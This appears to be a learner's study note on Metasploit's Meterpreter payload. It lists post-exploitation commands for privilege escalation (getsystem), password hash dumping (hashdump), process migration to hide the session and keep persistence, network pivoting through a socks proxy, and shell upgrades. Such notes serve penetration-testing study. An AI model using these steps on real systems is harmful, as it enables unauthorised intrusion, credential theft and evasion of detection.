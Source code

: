 ## **Intro:**
>The Meterpreter (Meta-Interpreter) payload is an advanced payload that is ***<mark style="background: #ED7506;">executed in memory</mark>*** on the target system making it <mark style="background: #e74c3c;">difficult to detect</mark>.



---
## ***COMMANDS:*** https://www.offsec.com/metasploit-unleashed/meterpreter-basics/
#### **Common Commands:**
1. `getprivs`: ***lists the current privileges for current user.***
2. `getsystem`: ***Once u have a session use this command to try to elevate privs***
3. `shell`: ***switch to a windows cmd shell***
4. `migrate`: switch
5. `pgrep <process, E.g: explorer>`: greps the process ID of a process
6. `search -f <file_name>`: searches for a file in that Shell.
7. `hashdump` : gets hashes of every user in this format: `user:UID:LM_hash:NT_hash`
8. `sessions -u <session_number>`: to upgrade a basic session to a meterpreter session `-u` means upgrade.... COOL


---
## **Migration in Meterpreter:**
- Hiding the process to gain persistence and avoid detection.
- Change the process architecture to execute some payloads with the current architecture. For example, if there is a 64-bits system and our meterpreter process is 86-bits, some architecture-related problems could happen if we try to execute some exploits against the session gained.
- Migrate to a more stable process.

### **How Migration works:**
1. A Metasploit handler is configured to retrieve a meterpreter sessions.
2. Processes are listed to select the desired one to migrate (`ps` command).
3. Migrate to the desired process (`migrate <PID>`)

#### **E.g. to understand:**
##### If the Meterpreter session is retrieved in an `.exe` file that creates the process `goodFile.exe`. **<mark style="background: #FF5582A6;">This process is quite noisy</mark>**, if the user closes this process, the session will be closed. Therefore, migrating to a more stable process like `explorer.exe` would give us the ability to hide the Meterpreter session and gain persistence.


---

## **How to change meterpreter architecture regarding the target arch:**

![[Pasted image 20250410145557.png]]

#### **To spawn a process to migrate to:**


	run post/windows/manage/migrate	

![[Pasted image 20250419195931.png | 800]]

---
## **Pivoting**

1. `run autoroute -s <our_subnet>` E.g. `run autoroute -s 10.10.10.0/24`
2. now we want to use **"proxychain"** tool on our attacking machine or a MSF module: `use auxiliary/server/socks_proxy`
3. `set VERSION 4a`
4. `set SRVPORT 9050` set it as what you did for socks4 tool. Our attacking machine will start listening on this port
5. so now we can nmap the second system from our main system: `proxychain nmap <Second_target> -sT -Pn -sV -p 445`


---


## **Upgrade Shell to Meterpreter session:**

### **<mark style="background: #FF5582A6;">MSF</mark> Module:**
Use this MSF Module after getting a session:
`post/multi/manage/shell_to_meterpreter`

Then specify the:
`LHOST`
`LPORT`
`SESSION`
Then ***<mark style="background: #e74c3c;">RUN</mark>***
After this you will find a new session called meterpreter: `sessions`

##### **We can use the sessions command to upgrade a session**

using the `-u` for upgrade

	sessions -u <session_id>

and it will use the `shell_to_meterpreter` Module automatically.


#### If python is installed: 

	python -c 'import pty;pty.spawn("/bin/bash")'

---


